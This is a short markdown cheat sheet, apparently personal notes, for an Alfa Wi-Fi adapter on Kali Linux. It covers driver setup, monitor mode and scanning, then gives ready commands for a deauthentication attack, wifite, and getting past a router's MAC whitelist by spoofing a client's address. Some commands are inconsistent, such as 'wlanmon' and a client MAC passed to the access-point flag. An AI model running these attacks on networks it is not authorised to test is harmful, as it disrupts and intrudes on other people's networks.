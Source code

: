 # WIFI Alfa AWUS036ACH
#Kali #Linux 

## Install driver
1. Connect the Wireless device to the Kali linux host.
2. Update package lists
```bash
sudo apt update
```
3. Install driver
```bash
sudo apt install realtek-rtl88xxau-dkms
```
4. Reboot the host

## Set the wireless adapter in Monitor Mode
```bash
sudo airmon-ng check kill
```

```bash
sudo airmon-ng start wlan0
```


## Check if it works
```bash
iw dev
```

```bash
ifconfig
```

```bash
iwconfig
```

## Set wireless adapter back in managed mode
```bash
sudo airmon-ng stop wlan0
```

```bash
sudo systemctl start wpa_supplicant
```

```bash
sudo systemctl start NetworkManager
```

## Scan

```bash
sudo airodump-ng wlan0
```
By default it will scan only in 2.4Ghz

```bash
airodump-ng wlan0 --manufacturer
```
Gives you a bit more information

```bash
airodump-ng wlan0 --manufacturer --band abg
```
Scan in different bands

## Attacks

### reconnaissance
```bash
sudo airodump-ng --bssid <bssid> --channel <CH-number> wlan0
```

### De-auth attack
```bash
sudo aireplay-ng -0 30 -a <client-mac-address> wlan0
```

### Wifite
```bash
sudo wifite
```

### Bypass router mac-address whitelist
1. Run the following command:
```bash
sudo airodump-ng --bssid <bssid> --band bg wlan0mon
```

2. Wait for a client to connect. When a client connects, its mac address appears. Grab the client's mac address. You will manually change your adapter's mac address with this mac address as follows:
```bash
sudo airmon-ng stop wlanmon

sudo systemctl start wpa_supplicant

sudo systemctl stop NetworkManager

sudo ip link set dev wlan0 down

sudo ip link set dev wlan0 address <whitelisted-mac-address>

sudo ip link set dev wlan0 up

sudo systemctl start NetworkManager
```
